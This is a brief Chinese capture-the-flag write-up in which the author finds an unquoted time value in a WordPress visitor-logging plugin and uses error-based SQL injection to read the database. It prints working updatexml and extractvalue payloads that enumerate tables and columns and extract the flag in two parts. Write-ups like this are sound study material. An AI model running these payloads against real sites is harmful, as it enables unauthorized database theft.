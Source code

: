 # 出去旅游的心海

看源码发现有`http://101.42.178.83:7770/wordpress/wp-content/plugins/visitor-logging/logger.php`，是个sql数据库连接。注意`insert $time`时没有加引号， 参考 https://wooyun.js.org/drops/%E5%88%A9%E7%94%A8insert%EF%BC%8Cupdate%E5%92%8Cdelete%E6%B3%A8%E5%85%A5%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE.html 注入获取数据

`updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0)`：表名secret_of_kokomi

`updatexml(0,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='secret_of_kokomi' limit 0,1)),0)`和`updatexml(0,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='secret_of_kokomi' limit 1,1)),0)`获取全部列名content,id

查内容（flag太长了截断了，前半部分payload）：`extractvalue(1,concat(0x7e,(SELECT concat_ws(':',content, id) FROM secret_of_kokomi limit 2,1)))`

后半部分payload：`extractvalue(1,concat(0x7e,substr((SELECT concat_ws(':',content, id) FROM secret_of_kokomi limit 2,1),30,32)))`